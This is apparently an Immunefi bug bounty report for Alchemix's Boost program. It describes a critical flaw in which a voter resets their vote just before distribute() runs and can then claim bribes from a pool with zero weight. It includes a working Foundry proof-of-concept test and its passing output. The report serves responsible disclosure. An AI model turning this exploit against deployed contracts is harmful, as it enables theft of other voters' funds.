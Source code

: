 
# Malicious users can front-run the distribution transaction to steal bribes

Submitted on May 12th 2024 at 14:17:54 UTC by @Ch301 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31085

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed royalties

## Description
## Brief/Intro

The pool weight is zero but users are still able to claim bribes.

## Vulnerability Details

First, let's understand two main points:

1- When a user invokes `Voter.sol#vote()`[#1] will update `lastVoted[_tokenId]` to `block.timestamp`
```solidity
File: Voter.sol

508:         lastVoted[_tokenId] = block.timestamp;

```
Users to be able to reset the voting status, need to call `Voter.sol#reset()`. However, the modifier `onlyNewEpoch()` will force the user to wait until a new epoch starts since the last vote. So user can call `reset()` at the first second of the new epoch.
```solidity
File: Voter.sol

110:         require((block.timestamp / DURATION) * DURATION > lastVoted[_tokenId], "TOKEN_ALREADY_VOTED_THIS_EPOCH");

```

 2- To distribute rewards and bribes to all gauges you need to call `Voter.sol#distribute()` only once per epoch. (Normally this is done by off-chain bots)
```solidity
File: Voter.sol

408:     function _distribute(address _gauge) internal {
409:        
410:         // Distribute once after epoch has ended
411:         require(
412:             block.timestamp >= IMinter(minter).activePeriod() + IMinter(minter).DURATION(),
413:             "can only distribute after period end"
414:         );

```
Now, the first point updates all the related values, but the `Bribe.sol#withdraw()` will create a new checkpoint `X` (see: `_writeCheckpoint()`[#2]) this checkpoint get considered for the new epoch not the last epoch.

Next time the user calls `voter.sol#claimBribes()`. the `balanceOf` of the epoch `X - 1` will allow the user to claim all/part from the bribes even if he didn't help the gauge to generate more emrssions

```solidity
File: Bribe.sol
232:     function earned(address token, uint256 tokenId) public view returns (uint256) {
        /***/
262:                 if (_nextEpochStart > prevRewards.timestamp) {
263:                     reward += prevRewards.balanceOf;
264:                 }

```

## Impact Details

1- If the malicious user is the only one who votes to a gauge, He will claim all the bribes if they exist and the pool will receive zero emissions.

2- If there are multiple users vote for that particular pool, the malicious user will steal a part from other user's bribes.

## References
#1: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L449

#2: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol?utm_source=immunefi#L351-L360


## Proof of Concept
Foundry PoC:
1. Please copy the following PoC in `Voting.t.sol`
```solidity
    function test_bribes_poc_01() public {
        {//set up
            uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

            address bribeAddress = voter.bribes(address(sushiGauge));

            address[] memory pools = new address[](1);
            pools[0] = sushiPoolAddress;
            uint256[] memory weights = new uint256[](1);
            weights[0] = 5000;

            address[] memory bribes = new address[](1);
            bribes[0] = address(bribeAddress);
            address[][] memory tokens = new address[][](1);
            tokens[0] = new address[](1);
            tokens[0][0] = bal;

            // in epoch i, user votes with balance x
            hevm.prank(admin);
            voter.vote(tokenId1, pools, weights, 0);

            // Start epoch
            hevm.warp(newEpoch());
            voter.distribute();
        }

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        /*@audit you can call `distribute()`only starting from `IMinter(minter).activePeriod() + IMinter(minter).DURATION()` */
        // Start second epoch. this is the first second of the second epoch.
        hevm.warp(newEpoch() - 1);
        //! user front-run the `distribute()` transaction 
        hevm.prank(admin);
        voter.reset(tokenId1);

        //! weight is zero
        uint weight = voter.weights(sushiPoolAddress);
        assertEq(weight, 0);

        voter.distribute();

        uint256 balanceStart = IERC20(bal).balanceOf(admin);

        // Claim bribes from epoch i
        hevm.warp(block.timestamp + 100);
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        uint256 balanceEnd = IERC20(bal).balanceOf(admin);
        
        //! weight is zero but the user still able to claim the bribes
        assertGt(balanceEnd, balanceStart);
    }
```
2. Test result:
```diff
Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] test_bribes_poc_01() (gas: 3792050)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 52.46s (37.28s CPU time)

Ran 1 test suite in 54.39s (52.46s CPU time): 1 tests passed, 0 failed, 0 skipped 
(1 total tests)
```